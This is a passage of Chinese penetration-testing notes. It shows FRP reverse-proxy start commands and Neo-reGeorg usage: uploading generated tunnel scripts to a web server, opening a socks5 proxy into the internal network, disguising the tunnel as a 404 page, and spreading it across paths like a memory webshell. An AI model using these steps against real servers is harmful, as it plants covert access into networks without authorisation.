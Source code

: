 ```
c:\frp\frps.exe -c c:\frp\frps.ini
```



---

**启动 FRP 客户端**
假设你已将 Frp 的客户端解压缩到 c:\frp 目录中，那么启动 Frp 客户端的命令就是：
```
c:\frp\frpc.exe -c c:\frp\frpc.ini
```

**Linux 启动 Frp 客户端命令**

```
./frpc -c ./frpc.ini
```

启动之后看到 “`start proxy success`”字样就表示启动成功了。



### Neo-reGeorg

项目地址:   https://github.com/L-codes/Neo-reGeorg

- 示例

    - 生成tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器

        python3 neoreg.py generate -k password

    -  使用 neoreg.py 连接 WEB 服务器,在本地建立 socks5 代理

        python3 neoreg.py -k password -u http://xx/tunnel.php

    - 高阶用法

        - 支持生成的服务端,默认直接请求响应指定的页面内容(如伪装的404页面)

            python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
            python neoreg.py -k <you_password> -u <server_url> --skip

        - 如服务端 WEB,需要设置代理才能访问

            python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080

        - 如需 Authorization 认证和定制的 Header 或 Cookie

            python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"

        - 需要分散请求,可上传到多个路径上,如内存马

            python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...

        - 开启内网转发,应对负载均衡

            python neoreg.py -k <you_password> -u <url> -r <redirect_url>

        - 更多关于性能和稳定性的参数设置参考 -h 帮助信息
